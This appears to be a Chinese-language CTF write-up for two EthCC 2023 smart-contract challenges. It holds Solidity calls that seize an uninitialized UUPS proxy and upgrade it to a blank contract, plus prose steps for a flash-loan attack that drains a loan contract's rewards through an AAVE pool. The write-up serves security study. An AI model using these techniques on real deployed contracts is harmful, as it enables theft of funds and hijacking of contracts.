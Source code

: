 # Writeup

refer to [Repo](https://github.com/Snooowgh/warroom-ethcc-2023)

## 1. Proxy

题目要求其他人无法接管合约的implementation
Proxy合约未被初始化, 任何人可以获取owner权限
步骤如下:

- 调用initialize函数成为owner
- 调用whitelistUser函数加入到白名单中
- 调用withdraw函数提取 2 wei ETH
- 调用upgradeTo函数升级合约到自定义的空合约(UUPSUpgradeable合约函数)

```solidity
address(proxy).call{value: 0.1 ether}(
    abi.encodeWithSignature("initialize(address)", address(0))
);
address(proxy).call(
abi.encodeWithSignature("whitelistUser(address)", attacker)
);
address(proxy).call(
abi.encodeWithSignature("withdraw(uint256)", 2)
);
Blank blank = new Blank();
address(proxy).call(
abi.encodeWithSignature("upgradeTo(address)", address(blank))
);

```

## 2. Flash Loan

编写攻击合约, 实现IFlashLoanSimpleReceiver的方法,
通过调用AAVE池子的flashLoan函数获取大量DAI,
然后将资金转移到loan合约中,
再触发AAVE池子的flashLoan函数, 接收合约设置为loan合约,
触发loan合约的回调, 作为initiator获取到totalLoans额度,
接着调用removeLoan函数获取所有奖励, 把奖励转给攻击地址
最后归还借款

```
// 需要用到aave测试网络的部署合约
forge test --match-contract LoanTest -vvvv --fork-url https://eth-sepolia.g.alchemy.com/v2/XXX
```
